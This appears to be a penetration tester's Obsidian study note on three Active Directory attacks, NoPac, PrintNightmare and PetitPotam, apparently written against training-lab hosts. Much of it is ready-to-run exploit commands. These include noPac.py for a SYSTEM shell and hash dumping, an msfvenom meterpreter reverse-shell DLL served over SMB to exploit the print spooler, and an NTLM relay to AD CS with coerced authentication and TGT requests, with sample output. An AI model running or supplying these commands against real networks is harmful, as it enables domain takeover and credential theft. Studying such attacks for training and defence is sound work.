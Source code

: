 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```
## NoPac (SamAccountName Spoofing)
**CVEs**: 
- [2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278) : Bypass vulnerability with the Security Account Manager (SAM)
- [2021-42287](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42287) : Vulnerability with the Kerberos Privilege Attribute Certificate (PAC) in ADDS
**Writeup**: 
- [Sam_The_Admin vulnerability](https://techcommunity.microsoft.com/t5/security-compliance-and-identity/sam-name-impersonation/ba-p/3042699)
- [blog post](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware)
**Tool**: [noPac](https://github.com/Ridter/noPac) (includes a `scanner.py` and exploit `noPac.py`)

The idea is that you can change a computer account's SamAccountName to that of a DC. We can then request Kerberos tickets causing that service to issue tickets under the DC's name. This can give us SYSTEM shell access on the DC.

It relies on the `ms-DS-MachineAccountQuota` to not be `0` (*setting this to `0` can prevent a number of AD attacks*) as the user wouldn't be able to add new machine accounts.

```bash
sudo python3 scanner.py [domain]/[user]:[pass] -dc-ip [dc-ip] -use-ldap

sudo python3 noPac.py [domain]/[user]:[pass] -dc-ip [dc-ip] -dc-host [dc-name] -shell --impersonate administrator -use-ldap
```
> this can be very noisy and could be flagged by AV / EDR

This attack will leave the TGT on the attack host in the directory it was run. This `ccache` file could then be used for a [[Password Attacks#Pass-the-Hash|PtH]] or [[Abusing ACLs#DCSync|DCSync]] attack.
> We can use the `-dump` flag with noPac to a DCSync attack using [[Abusing ACLs#Using secretsdump.py|secretsdump.py]].

This tool makes use of `smbexec.py` (*from Impacket*) which can be quite noisy and easily detected by Windows Defender (*and other AVs*).

## PrintNightmare
**CVEs**:
- [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) : Print spooler improperly performs privileged file operations, allowing RCE
- [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) : Not publicly disclosed - Allows RCE
**Tool**: [cube0x0's](https://twitter.com/cube0x0?lang=en)

There are a number of exploits out there that use the RCE vulnerabilities, [cube0x0's](https://twitter.com/cube0x0?lang=en) is a popular one.
> Annoyingly, [cube0x0's](https://twitter.com/cube0x0?lang=en) exploit uses a modified version of Impacket. `github.com/cube0x0/impacket`.

```Bash
rpcdump.py @[dc-ip] | egrep 'MS-RPRN|MS-PAR'
```
Lets us determine if `Print System Asynchronous Protocol` and `Print System Remote Protocol` are exposed on the target.

### Create a DLL payload with [[MSFVenom]]
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[ATK_host] LPORT=[ATK_port] -f dll > [filename].dll
```
> Make sure to start an MSF multi/handler
### Host the DLL in an SMB Server
```bash
sudo smbserver.py -smb2support [share_name] [path_to_dll]
```
### Exploit
```bash
sudo python3 CVE-2021-1675.py [domain]/[user]:[pass] '\\[ATK_host]\[share_name]\[filename].dll'
```

## PetitPotam (MS-EFSRPC)
**CVE**: 
- [CVE-2021-36942](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36942) : Unauthenticated attacker can coerce the DC to authenticate against another server (LSA Spoofing)
**Writeup**:
- https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/

By abusing the [Encrypting File System Remote Protocol (MS-EFSRPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31), an unauthenticated attacker can force the DC to authenticate against another host using NTLM on port 445 via the [Local Security Authority Remote Protocol (LSARPC)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-lsad/1b5471ef-4c33-4a91-b079-dfcbb82f05cc). This allows an attacker to take control of a domain where [Active Directory Certificate Services (AD CS)](https://docs.microsoft.com/en-us/learn/modules/implement-manage-active-directory-certificate-services/2-explore-fundamentals-of-pki-ad-cs) is in use.

1. An authentication request from the targeted DC is relayed to the CA host's Web Enrolment page
2. The CA generates a Certificate Signing Request (CSR) for a new cert.
3. The cert can be used with tools like [[Rubeus]] or `gettgtpkinit.py` (*from [PKINITtools](https://github.com/dirkjanm/PKINITtools)*) to request a TGT for the DC
4. The TGT can then be used in a [[Abusing ACLs#DCSync|DCSync]] attack to compromise the domain

### Start an NTLM relay
The relay must point to the Web Enrolment URL for the CA host (*Can try [certi](https://github.com/zer1t0/certi) to locate it*) and it must use either the KerberosAuthentication or DomainController AD CS template.
```bash
sudo ntlmrelayx.py -debug -smb2support --target https://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```

### Running PetitPotam.py
[PetitPotam.py](https://github.com/topotam/PetitPotam) will attempt to coerce the DC to authenticate to our host where our NTLM relay is running. This tool will attempt to coerce authentication via the [EfsRpcOpenFileRaw](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/ccc4fb75-1c86-41d7-bbc4-b278ec13bfb8) method.
> There is a windows exe version, a PowerShell tool [Invoke-PetitPotam.ps1](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/Invoke-Petitpotam.ps1) or Mimikatz can do it too `misc::efs /server:[dc-ip] /connect:[atk-ip]`

```bash
python3 PetitPotam.py [dc-ip] [atk-ip]
```

This will then cause the relay to request the CSR and the relay will return the base64 encoded cert.
```bash
[*] SMBD-Thread-4: Connection from INLANEFREIGHT/ACADEMY-EA-DC01$@172.16.5.5 controlled, attacking target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL as INLANEFREIGHT/ACADEMY-EA-DC01$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
[*] GOT CERTIFICATE!
[*] Base64 certificate of user ACADEMY-EA-DC01$: 
MIIS...CCJ8
```

### Requesting the TGT
```
python3 /opt/PKINITtools/gettgtpkinit.py [DOMAIN]/[DC-NAME]\$ -pfx-base64 [b64-cert] [outputfile].
```